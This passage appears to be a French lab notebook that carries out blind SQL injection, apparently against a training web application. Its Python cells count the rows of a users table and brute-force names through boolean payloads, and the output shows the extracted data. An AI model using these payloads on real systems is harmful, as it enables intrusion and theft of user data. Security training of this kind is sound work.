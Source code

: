

```python
list_columns_found = list(set(columns_found))
print("Liste des colonnes trouvées : ")
print(list_columns_found)
```

    Liste des colonnes trouvées : 
    ['user', 'user_id', 'password', 'last_login', 'first_name', 'last_name', 'avatar']


### 5. Enregistrement de la table users


```python
line_count = 0
for i in range(0, 100): 
    id_param = "' OR "+str(i)+ " IN (SELECT COUNT(*) FROM users)  -- -"
    params = {
        'id': id_param,
        'Submit': 'Submit',
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        line_count = i
        break
print("Nombre d'enregistrements de la table users = ", line_count)
```

    Nombre d'enregistrements de la table users =  5


#### 5.1 Faisons sortir les first_name de la table users


```python
wordlist_first_name = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT first_name FROM users) -- -"

list_of_first_name = send_request_with_wordlist(wordlist_first_name, sql_start, sql_end)
print(list_of_first_name)
```

    [FOUND] =  admin
    [FOUND] =  Pablo
    [FOUND] =  Gordon
    [FOUND] =  hack
    [FOUND] =  bob
    ['admin', 'Pablo', 'Gordon', 'hack', 'bob']


#### 5.2 last_name de la table users


```python
wordlist_last_name = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT last_name FROM users) -- -"

list_of_last_name = send_request_with_wordlist(wordlist_last_name, sql_start, sql_end)
print(list_of_last_name)
```
